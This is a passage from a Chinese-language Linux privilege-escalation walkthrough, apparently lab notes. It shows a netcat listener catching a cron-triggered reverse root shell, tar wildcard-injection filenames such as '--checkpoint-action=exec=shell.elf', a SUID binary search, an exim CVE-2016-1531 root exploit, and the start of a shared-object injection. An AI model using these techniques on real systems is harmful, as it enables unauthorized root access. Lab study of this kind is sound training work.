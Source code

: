 在攻击机的端口4444上设置一个 netcat 监听器，并等待目标机上的cron 作业运行(应该不会超过一分钟)，然后root shell就会回连攻击机上的 netcat 监听器：

```shell
nc -nlvp 4444
```

![image-20221010233628546](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010233628546.png)

操作完之后退出root shell，并删除刚才的文件：

```
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```

## SUID/SGID 可执行文件提权-已知漏洞exp

在目标机上查找所有的 SUID/SGID 可执行（二进制）文件:

```shell
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
#运行SUID/SGID可执行文件时，会暂时获得文件拥有者的用户权限或者文件所在组的用户权限
#如果某一个SUID文件的拥有者是root，那么执行该文件时的权限就是root权限了。
#我们要达到的目的是以root权限执行shell命令：如/bin/bash等；这样就能得到一个root shell的命令行环境。
```

![image-20221011001541163](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011001541163.png)

注意，结果中出现了/usr/sbin/exim-4.84-3，尝试找到这个版本的exim的已知漏洞：搜索 Exploit-DB, Google, 以及GitHub等等 。

> Exploit-DB：https://www.exploit-db.com/
>
> vulners：https://vulners.com/
>
> GTFOBins：https://gtfobins.github.io/

通过检索，我们知道有一个与这个 exim 版本完全匹配的本地权限提升漏洞exp，在实际环境中，我们要自己下载好exp并上传或者复制到目标机上。

在目标机上运行exp程序，获取 root shell：

```
/home/user/tools/suid/exim/cve-2016-1531.sh
```

![image-20221011002007533](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011002007533.png)

## SUID/SGID 可执行文件提权-共享对象注入

目标机上的SUID 可执行文件：/usr/local/bin/suid-so ，容易受到共享对象注入的影响。

在文件上运行 strace命令，跟随suid-so文件的执行情况，并在输出中搜索" open "、" access "调用和" no such file "错误:

```shell
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

![image-20221011004602835](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011004602835.png)
